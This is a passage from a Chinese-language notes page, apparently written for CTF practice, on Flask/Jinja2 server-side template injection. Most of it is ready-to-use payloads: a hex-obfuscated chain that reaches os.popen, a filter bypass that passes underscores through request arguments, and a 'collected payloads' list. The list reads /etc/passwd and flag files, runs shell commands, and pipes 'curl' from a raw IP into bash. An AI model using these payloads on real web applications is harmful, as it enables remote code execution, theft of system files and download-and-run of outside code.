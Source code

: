 ![image-20210621215844341](images/17.png)

```
全16进制

{{""["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]["\x5f\x5f\x62\x61\x73\x65\x5f\x5f"]["\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f"]()[64]["\x5f\x5f\x69\x6e\x69\x74\x5f\x5f"]["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f"]("\x6f\x73")["\x70\x6f\x70\x65\x6e"]("ls")["\x72\x65\x61\x64"]()}}
```



4. 过滤下划线

   ```
   {{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
   ```

   

其实ssti基本上不常见,只要注意到了模板渲染的方法其实是不容易出现这个漏洞的

收藏的一些payload

```
{{[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()}}

{{[].__class__.__bases__[0].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()
}}

{{''.__class__.__mro__[1].__subclasses__()[94].get_data(0,"/flag")}}

{{lipsum.__globals__.['os'].popen('curl 47.93.248.221|bash').read()}}
{{lipsum|attr("__globals__")("os")|attr("popen")("ls")|attr("read")()}}

{{lipsum.__globals__.os.popen(request.args.x1).read()}}然后在get参数x1

{{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}} #cookie a=__globals__ b=ls

{{config.__init__.__globals__['os'].popen('ls').read()}}

{{(config|attr(request.args.a))|attr()['os'].popen('ls').read()}}
```